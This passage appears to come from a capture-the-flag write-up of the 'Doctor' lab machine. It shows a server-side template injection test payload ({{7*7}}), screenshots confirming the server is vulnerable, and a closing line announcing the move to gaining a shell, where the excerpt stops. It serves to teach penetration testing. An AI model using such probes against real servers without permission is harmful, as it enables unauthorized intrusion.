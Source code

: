```bash
{{7*7}}
```

if the webserver is vulnerable this would result in 49.

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/14.png)

Let's post it

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/15.png)

Now let's check the archive page.

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/16.png)

We can confirm that the webserver is vulnerable. Now let’s exploit this vulnerability to gain shell on the remote machine.
